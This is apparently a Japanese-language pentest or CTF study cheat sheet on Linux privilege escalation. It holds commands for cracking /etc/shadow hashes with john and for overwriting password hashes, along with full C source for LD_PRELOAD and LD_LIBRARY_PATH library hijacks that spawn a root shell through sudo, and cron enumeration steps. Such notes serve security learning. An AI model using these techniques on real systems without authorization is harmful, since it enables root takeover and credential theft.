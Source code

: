 # Linux Privilege Escalation2

## 機密ファイルのパーミッション確認
### /etc/shadow（read 権限あり）
```
echo '[HASH]' | tee hash.txt
hashid -m '[HASH]'
john --format=[FORMAT] --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### /etc/shadow（write 権限あり）
新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```
### /etc/passwd（write 権限あり）
新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## Sudo
### root 権限で実行できるコマンドを確認
```
sudo -l
```

### ユーザー環境から継承された環境変数を確認
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行(*1)
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. コマンド実行時に読み込むライブラリを確認 
```
LD_LIBRARY_PATH=/tmp strace [COMMAND] 2>&1 | grep -iE "open|access|no such file"
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル(*2)
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行(*1)
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
setresuid() : Sets real and effective user IDs of the calling process

#### Annotation
*1 使用するコマンドは、root 権限で実行できるもの。  
*2 偽装するライブラリ名は、/tmp/[ファイル名]で読み込みされることを確認する。strace コマンドに LD_LIBRARY_PATH=/tmp を付与して実行することで、正規のディレクトリとは別に tmp ディレクトリにもライブラリを探しに行く。しかしライブラリによっては tmp ディレクトリに探しにいかないものもあるため注意。

## Cron Jobs
### ファイルのパーミッション

#### Crontabの確認
```
cat /etc/crontab
```

#### ディレクトリ / ファイルの書き込み権限の確認
```
ls -la [DIRECTORY / FILE]
```

#### ファイルのフルパスの確認
```
locate [FILE]
```

### 環境変数 PATH
ファイルが絶対パスで指定されていない（ファイル名のみ）ことが前提。

```

```
